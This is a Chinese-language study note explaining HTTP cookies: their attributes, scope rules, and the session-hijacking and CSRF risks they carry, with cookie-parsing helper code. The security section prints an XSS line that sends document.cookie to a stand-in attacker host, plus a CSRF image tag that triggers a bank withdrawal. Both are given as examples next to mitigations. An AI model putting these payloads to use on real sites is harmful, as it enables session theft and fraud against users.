# cookie

HTTP Cookie（也叫 Web Cookie 或浏览器 Cookie）是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie 使基于无状态的 HTTP 协议记录稳定的状态信息成为了可能。

Cookie 主要用于以下三个方面：

> - 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
> - 个性化设置（如用户自定义设置、主题等）
> - 浏览器行为跟踪（如跟踪分析用户行为等）

会话期 cookie:没有设定过期时间，会话结束，自动删除，具体看浏览器的实现，有的浏览器会有保活机制。
持久性 cookie:cookie 设定了 Expires 过期时间或者 Max-age 有效期。

cookie 的 secure 标记是给 https 的站点使用的，有一定安全性，但不是万能的。
cookie 的 httponly 标记，表示不能被 js 读取

Domain 和 Path 标识定义了 Cookie 的作用域：即 Cookie 应该发送给哪些 URL。
Domain 标识指定了哪些主机可以接受 Cookie。如果不指定，默认为当前文档的主机（不包含子域名）。如果指定了 Domain，则一般包含子域名。
例如，如果设置 Domain=mozilla.org，则 Cookie 也包含在子域名中（如 developer.mozilla.org）。
Path 标识指定了主机下的哪些路径可以接受 Cookie（该 URL 路径必须存在于请求 URL 中）。以字符 %x2F ("/") 作为路径分隔符，子路径也会被匹配。
例如，设置 Path=/docs，则以下地址都会匹配：
/docs
/docs/Web/
/docs/Web/HTTP

SameSite Cookie 允许服务器要求某个 cookie 在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF）。但目前 SameSite Cookie 还处于实验阶段，并不是所有浏览器都支持。

---

会话劫持和 XSS:
在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS 攻击。

(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
HttpOnly 类型的 Cookie 由于阻止了 JavaScript 对其的访问性而能在一定程度上缓解此类攻击。

跨站请求伪造（CSRF）:
维基百科已经给了一个比较好的 CSRF 例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：
对用户输入进行过滤来阻止 XSS；
任何敏感操作都需要确认；
用于敏感信息的 Cookie 只能拥有较短的生命周期；

```javascript
function getCookie(name) {
  var arr,
    reg = new RegExp("(^| )" + name + "=([^;]*)(;|$)");

  if ((arr = document.cookie.match(reg))) return unescape(arr[2]);
  else return null;
}

function parseCookie() {
  var cookie = document.cookie,
    pattern = /([^=]+)=([^;]+);?\s*/g,
    result,
    value = {};
  while ((result = pattern.exec(cookie)) != null) {
    value[result[1]] = result[2];
  }
  return value;
}
```

cookie 的封装库有很多，这里推荐一个，[看这里](https://github.com/js-cookie/js-cookie)

> some blog

[cookies](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)

[zakas](https://humanwhocodes.com/blog/2009/05/05/http-cookies-explained/)

[csdn](https://blog.csdn.net/yiifaa/article/details/78471252)

